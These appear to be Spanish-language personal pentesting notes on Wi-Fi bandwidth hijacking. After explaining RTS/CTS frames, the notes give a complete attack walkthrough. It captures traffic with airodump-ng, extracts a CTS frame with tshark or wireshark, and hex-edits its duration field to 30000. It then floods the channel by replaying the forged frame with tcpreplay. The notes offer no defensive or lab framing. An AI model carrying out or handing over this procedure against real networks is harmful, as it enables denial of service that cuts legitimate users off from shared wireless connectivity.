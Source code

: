 # Bandwidth Hijacking

El ataque de *scuestro de ancho de banda* o *Bandwidth Hijacking* consiste en que el atacante consume gran parte del ancho de banda disponible en la red, limitando la cantidad de ancho de banda que está disponible para los usuarios legítimos. Este ataque se basa en los mecanismos de control de acceso al medio utilizados en redes inalámbricas, como **RTS** y **CTS**.

> [!info]
> ### **RTS** (Requests to send): 
> 
> ### Es una señal que se envía desde un nodo inalámbrico al nodo destinatario para solicitar el derecho de transmitir datos. Al enviar una señal **RTS**, el nodo emisor informa al nodo destinatario que desea transmitir datos y solicita la autorización para hacerlo. 
> ### Este mecanismo se utiliza para evitar la transmisión de datos de nodos inálambricos que están demasiado lejos para escuchar las señales de nodos de otros nodos inálambricos. Al enviar una señal **RTS**, el nodo emisor se asegura que el nodo destinatario esté disponible para recibir los datos antes de transmitirlos. Esto ayuda a reducir la pérdida de datos y mejora el rendimiento de la red. 
> 
> #### Paquete RTS: 
> ![[RTS.png]]


>[!info]
>### **CTS** (Clear to send):
>### Es una señal que se envía desde un nodo inalámbrico a otro para solicitar el derecho de transmitir datos. Cuando un nodo inalámbrico desea transmitir  datos, primero envía una señal **RTS** al nodo destinatario. Si el nodo destinatario está libre para recibir datos, responde con una señal **CTS** para informar al nodo emisor que puede transmitir los datos. ### El mecanismo **CTS** se utiliza para evitar colisiones entre nodos que intentan transmitir datos al mismo tiempo. Si dos nodos transmiten al mismo tiempo, se produce una colisión que puede causar la pérdida de datos. Al solicitar la autorización para transmitir mediante una señal **CTS**, se  reduce la probabilidad de colisiones yse mejora el rendimiento de la red inalámbrica. 
>
>#### Paquete CTS: 
>
>![[CTS.png]]

-----
# Exploit

Este ataque consiste en modificar un paquete **CTS** para generar un tráfico elevado, generar colisiones de datos y saturación en el ancho de banda. 

Para realizar esto, primero necesitamos capturar brevemente el tráfico de la red para conseguir un paquete **CTS** y posteriormente editarlo. 

```shell
airodump-ng --essid {essid} -c {channel} -w {file.cap} {interfaz}
```

Una vez que dejemos correr unos segundos, podemos terminar la intercepción del tráfico de red, y podemos comenzar a ver los paquetes **CTS** y analizar todo el tráfico obtenido con herramientas como `tshark` o `wireshark`. 

```shell 
# -Y para filtrar 
# -Tjson para ver en formato json
# -Tfields -e wlan.duration para filtrar por parametros
# 0x1C es el tipo/subtipo para CTS
tshark -r {file.cap} -Y "wlan.fc.type_subtype == 0x1C" 
```

En caso de utilizar `wireshark` en el apartado de "Apply a display filter" introducimos **wlan.fc.type_subtype == 0x1C**

```bash
wireshark {file.cap} &>/dev/null & disown
```

Una vez seleccionado dicho paquete nos dirigimos a **file** > **Export specified packets** > **Select packets only** > **guardar** para guardar el mismo.  

Una vez que tengamos el arhivo guardado, por ejemplo, **CTS.cap**, podremos ver de manera previa que dicho paquete cuenta con una "duración", la cual tenemos que modificar como objetivo. 
#### Ejemplo **wireshark**: 

![[CTS_time_ws.png]]

#### Ejemplo **tshark**:

```shell
tshark -r CTS.cap -Tjson
```

![[CTS_time_ts.png]]
###### Editing package

Ahora solo queda editar la duración en la que los paquetes **CTS** comunican que la conexión esta "libre", intentaremos modificar dicho valor del paquete por el valor de **30000** para asi intentar lograr saturar la red. 

Para esto utilizaremos una herramienta lamada `ghex` para editar los valores de esta captura. 

```shell
sudo ghex CTS.cap &>/dev/null & disown
```

![[ghex_cts.png]]

Nos fijamos que valores exadecimales pertenecián al "**duration time**" en wireshark, para eso abrimos el paquete **CTS**, hacemos doble click, y en la pestaña que se nos abre, tocamos  **....Duration: ......** y veremos su valor hexadecimal: 

![[CTS_ws_time.png]]

En este caso **88 00**, entendiendo que estos valores tendran que ser remplazados con la herramienta de `ghex`. 
Como queremos remplazar estos **136 microseconds** por **30000**, es necesario ver el valor hexadecimal de esto, y esto lo podemos hacer con python3 

```python
hex(30000)
```

Dando como valor **0x7530** teniendo que modificarlo en **ghex** como **30 75**, quitando el 0x e invirtiendo los valores...

![[ghex_edit_time.png]]

De esta manera si lo volvieramos a ver con `tshark` o `wireshark` veriamos que tendriamos una duración de **30000**, por lo que solo falta **replicar** el paquete **CTS editado**. 

```shell
tcpreplay --intf1={interfaz} --topspeed --loop=2000 {CTS_edited.pcap} 2>/dev/null
```

De esta manera estariamos utilizando nuestra **tarjeta de red** para tramitar 2000 paquetes **CTS** de duración de **30000**. Incluso podriamos interceptar el tráfico de red y filtrar por paquetes **CTS** para corroborar el envío de estos paquetes. 

